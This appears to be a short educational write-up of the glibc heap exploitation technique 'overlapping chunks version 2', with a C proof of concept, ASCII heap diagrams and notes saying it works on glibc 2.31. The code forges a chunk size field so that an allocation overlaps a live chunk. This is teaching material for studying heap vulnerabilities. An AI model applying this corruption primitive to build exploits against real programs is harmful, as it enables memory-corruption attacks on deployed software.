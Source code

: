 # Overlapping chunks version 2
> LongChampion, 18/03/2020

Yes, another overlapping attack. This attack is a bit harder than version 1, but is is easier than *poison null byte*.
```c
#include <stdlib.h>
#define PREV_INUSE 0x01

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *p1, *p2, *p3, *p4, *p5;
    p1 = malloc(0x100 - 8);
    p2 = malloc(0x100 - 8);
    p3 = malloc(0x100 - 8);
    p4 = malloc(0x100 - 8);
    p5 = malloc(0x100 - 8);

    free(p4);
    struct Chunk *Header = (struct Chunk *) (p2 - 0x10);
    Header->size = 0x200 | PREV_INUSE;
    free(p2);

    p2 = malloc(0x300 - 8);
}
```
This is visualization:
> After allocation:
```
    +-------------+-------------+-------------+-------------+-------------+
    |      1      |      2      |      3      |      4      |      5      |
    +-------------+-------------+-------------+-------------+-------------+

```
> Free chunk `4`:
```
    +-------------+-------------+-------------+             +-------------+
    |      1      |      2      |      3      |             |      5      |
    +-------------+-------------+-------------+             +-------------+
```
> Change size of chunk `2`, then free it:
```
    +-------------+             +-------------+             +-------------+
    |      1      |             |      3      |             |      5      |
    +-------------+             +-------------+             +-------------+
```
> Allocate chunk `2` again (with larger size):
```
    +-------------+-------------#>>>>>>>>>>>>>#-------------+-------------+
    |      1      |      2      [   2 and 3   ]      2      |      5      |
    +-------------+-------------#<<<<<<<<<<<<<#-------------+-------------+
```

# Note
- This attack still work with **GLIBC** 2.31 (I have tested this), but doesn't work against fastbin and tcache_bin.
- Chunk `5` is important: without it we can't free chunk `4`.
- The `PREV_INUSE` flag in chunk `2` fake size is important, too.
